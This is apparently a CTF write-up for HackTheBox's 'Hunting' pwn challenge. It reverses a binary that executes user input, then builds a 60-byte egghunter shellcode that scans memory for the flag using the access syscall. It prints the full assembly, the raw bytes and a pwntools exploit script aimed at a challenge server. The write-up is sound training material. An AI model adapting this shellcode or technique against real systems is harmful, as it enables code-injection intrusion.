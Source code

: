 ```yaml
---
layout: post
title: Binary Exploitation&#58; HackTheBox/Hunting
---
```


## HacktheBox Hunting Write-up

First, we check the file type.
```
hunting: ELF 32-bit LSB pie executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=801f10407444c1390cae5755d9e952f3feadf3eb, for GNU/Linux 3.2.0, stripped
```

Next, binary protections.
```
[*] '/home/jrice/ctf/htb/pwn/hunting/hunting'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      PIE enabled
    Stack:    Executable
    RWX:      Has RWX segments
```

### Reversing

Let's start by running the binary.
```
jrice@jteerice:~/ctf/htb/pwn/hunting$ ./hunting
asdf
Segmentation fault (core dumped)
```

The program waits for user input and then whatever input is given results in a seg fault. Not much to go on here so we can open it up in BinaryNinja and see what we can find.

While the program is stripped, BinaryNinja had no issue finding main for us. The main function is rather simple.
```
00001460  int32_t main(int32_t argc, char** argv, char** envp)

0000146b      void* const __return_addr_1 = __return_addr
00001472      int32_t* var_10 = &argc
00001481      int32_t addr = sub_13d0()
00001495      signal(sig: 0xe, handler: exit)
000014a2      alarm(0xa)
000014be      char* eax_1 = mmap(addr, len: _init, prot: 3, flags: 0x31, fd: 0xffffffff, offset: 0)
000014cd      if (eax_1 != 0xffffffff)
000014e6          strcpy(eax_1, "HTB{XXXXXXXXXXXXXXXXXXXXXXXXXXXX…")
000014fc          memset("HTB{XXXXXXXXXXXXXXXXXXXXXXXXXXXX…", 0, 0x25)
00001504          int32_t var_18_1 = 0
0000150b          sub_133d()
00001522          int32_t buf = mmap(addr: nullptr, len: _init, prot: 7, flags: 0x21, fd: 0xffffffff, offset: 0)
00001537          read(fd: 0, buf, nbytes: 0x3c)
0000153f          int32_t var_14_1 = 0
0000154a          buf()
0000155a          return 0
000014d4      exit(status: 0xffffffff)
000014d4      noreturn
```

An address is returned from the ```sub_13d0()``` function and is used as the address suggestion for an ```mmap``` call. Then, as long as the address returned by ```mmap``` is not ```0xffffffff```, the contents of the flag are copied into the memory buffer returned from ```map``` and the area of global memory storing the flag string is nulled. Finally, our user input is stored into another buffer returned by ```mmap``` and our input is called as a function. This is clearly a code injection challenge, but now we need to figure out what the objective of our injected code needs to be.

Since our flag is stored in a memory buffer at an address returned by the function ```sub_13d0()```, we need to see what is going on in there.
```
000013d0  int32_t sub_13d0()

000013f2      int32_t fd = open(file: "/dev/urandom", oflag: 0)
00001409      uint32_t var_1c
00001409      read(fd, buf: &var_1c, nbytes: 8)
00001417      close(fd)
00001429      srand(x: var_1c)
00001431      int32_t i = 0
00001456      while (not(i s> 0x5fffffff && i u<= 0xf7000000))
00001442          i = rand() << 0x10
0000145f      return i
```

Essentially, this function returns a random address between 0x5fffffff and 0xf7000000. 

Now we know that our flag is stored somewhere between 0x5fffffff and 0xf7000000, we have program control via out input, and we have 0x3c bytes of code to work with.

### Pwn

The code that we inject into the program needs to search the memory between the given addresses for a signature we know is contained in the flag, or in this case, the string "HTB{". We can use something similar to [egghunter shellcode](https://www.hick.org/code/skape/papers/egghunt-shellcode.pdf), but instead of jumping to our shellcode, we will print the data at the memory address that we found the signature at.

The only issue with this is, is that if we try to read from a virtual address that hasn't been mapped in our virtual address space, we will get a segmentation fault. To get around this, our shellcode will utilize the ```access``` system call. This will check to see if we have read permissions at the virtual address passed in as an argument, and if we don't, will return an ```EFAULT``` error represented by the value ```0xf2```. Taking page table granularity,into account, we only need to test one address per page in order to find a page that we have read access to.

So the logic to search our virtual address space for the signature is as follows:
```c
if (access(addr) == 0xf2) {
    test_next_page();
} else if (*addr != "HTB{") {
    test_next_addr();
} else {
    write(1, addr, NUM_BYTES_TO_PRINT);
}
```

With all this information collected, we can assemble our shellcode. Let's break it down into chunks.

First, we setup our entry. We set ```edi``` with the hex value of our signature. Note that the values are in little-endian order. Next, we load our starting address into ```edx``` and ```xor``` some registers we will use for comparisons.
```asm
section .text
main:
	mov edi, 0x7b425448
	mov edx, 0x5fffffff
	xor ecx, ecx
	xor eax, eax
```	

Here is out egghunter logic. Since ```edx``` is holding the address that we are testing, we ```or``` the first three bits to create an address that is ```(n * page_size) - 1```. This is to ensure we our test addresses are page aligned. Next we increment our address to a page aligned address and load an effective address into ```ebx``` to be used by the ```access``` system call. Finally, we load the necessary registers for our system call and compared the result to the error code ```0xf2```. If the zero-flag is set, we jump to the ```next_page``` label and continue our search. If we get a valid read address, we compare the contents of the memory address for our signature, and if we don't get a match, we increment the address by 1. 
```asm
next_page:
	or dx, 0xfff
next_addr:
	inc edx
	pusha
	lea ebx, [edx + 0x4]
	mov al, 0x21
	int 0x80
	cmp al, 0xf2 
	popa
	jz next_page
	cmp [edx], edi
	jnz next_addr
```

Finally, once we find the matching address, we setup a ```write``` system call to write the contents at the memory address to standard out. It is important to note that we are including a function epilogue to ensure that the shellcode exits correctly and doesn't crash the system.
```asm
	mov ecx, edx
	mov ebx, 1
	mov edx, 40
	mov eax, 0x04
	int 0x80
	mov esp, ebp
	pop ebp
	ret
```

Here is the whole shebang at exactly 0x3c bytes:
```asm
section .text
main:
	mov edi, 0x7b425448
	mov edx, 0x5fffffff
	xor ecx, ecx
	xor eax, eax
next_page:
	or dx, 0xfff
next_addr:
	inc edx
	pusha
	lea ebx, [edx + 0x4]
	mov al, 0x21
	int 0x80
	cmp al, 0xf2 
	popa
	jz next_page
	cmp [edx], edi
	jnz next_addr
	mov ecx, edx
	mov ebx, 1
	mov edx, 40
	mov eax, 0x04
	int 0x80
	mov esp, ebp
	pop ebp
	ret
```

To craft this into a working exploit, we need to extract the raw bytes that are assembled by the assembler. To do this, we can use a nifty python script I found called [shellcode_extractor](https://github.com/Neetx/Shellcode-Extractor).
```
nasm -f elf shellcode.asm -o shellcode
objdump -d shellcode | python3 shellcode_extractor.py
```

Now we can put this into a working exploit. The exploit is incredible simple once we have the shellcode.
```python
#!/usr/bin/env python3

from pwn import *

e = context.binary = ELF('./hunting')

shellcode = b'\xbf\x48\x54\x42\x7b\xba\xff\xff\xff\x5f\x31\xc9\x31\xc0\x66\x81\xca\xff\x0f\x42\x60\x8d\x5a\x04\xb0\x21\xcd\x80\x3c\xf2\x61\x74\xed\x39\x3a\x75\xee\x89\xd1\xbb\x01\x00\x00\x00\xba\x28\x00\x00\x00\xb8\x04\x00\x00\x00\xcd\x80\x89\xec\x5d\xc3'

r = remote('206.189.24.162', 31288)
#r = e.process()
#r = gdb.debug('./hunting', '''
#        start < input
#        breakrva 0x154a
#        start < input
#        continue
#        ''')
r.sendline(shellcode)
r.interactive()
```

Et voila!


